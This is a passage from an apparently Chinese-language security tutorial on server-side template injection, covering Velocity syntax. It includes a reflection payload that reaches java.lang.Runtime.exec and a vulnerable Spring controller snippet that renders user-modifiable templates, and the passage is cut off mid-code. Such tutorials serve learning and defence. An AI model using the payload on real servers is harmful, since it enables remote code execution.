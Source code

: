 - [SSTI 模板注入](#ssti-模板注入)
  - [Velocity](#velocity)
    - [基础语法](#基础语法)
      - [属性](#属性)
    - [模板注入](#模板注入)
      - [模板文件内容可控](#模板文件内容可控)
      - [动态渲染字符串](#动态渲染字符串)
  - [freemarker](#freemarker)
    - [语法](#语法)
    - [new函数](#new函数)
      - [防御](#防御)
    - [API函数](#api函数)
    - [模板注入](#模板注入-1)
  - [Thymeleaf](#thymeleaf)
    - [模板内容可控](#模板内容可控)
    - [Return内容可控](#return内容可控)
    - [URI可控](#uri可控)
    - [防御](#防御-1)
  - [Smarty](#smarty)
  - [Twig](#twig)
- [参考](#参考)

# SSTI 模板注入
JAVA： freemarker，Velocity，Thymeleaf  
PHP：smarty，twig  
Python：  jinja2、 mako tornado 、django  
## Velocity
官方文档:https://velocity.apache.org/engine/2.3/user-guide.html
### 基础语法
`#`:标记表示VTL语法开始.  
`set`:表示一个指令,后面跟一个(),里面为表达式.  
`$`:变量标识符.  
`$customer.Address`等于`$customer.getAddress()`.
#### 属性
`$customer.Address`  
1. 可以指customer对象的Address属性值
2. 可以指customer对象的Address相关方法
### 模板注入
Velocity模板注入主要是渲染了用户可控的恶意模板内容，通过属性引用获取Class来反射加载恶意类执行恶意方法。  
```java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")
```
#### 模板文件内容可控
其中主要分两种情况，一种是使用t.merge(context,w);对t模板进行渲染时，但用户可以修改t模板的文件内容，Jira后台的模板邮件功能就可以由用户修改对应模板内容导致过几次SSTI。  
如
```java
    @RequestMapping("/template")
    public String template(){
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.setProperty(RuntimeConstants.RESOURCE_LOADER,"classpath");
        velocityEngine.setProperty("classpath.resource.loader.class", ClasspathResourceLoader.class.getName());
        velocityEngine.init();
        VelocityContext context = new VelocityContext();
        context.put("name", "Velocity");
        context.put("project", "Jakarta");
        Template t = velocityEngine.getTemplate("templates/index.vm");
        StringWriter w = new StringWriter();
        t.merge(context,w);
```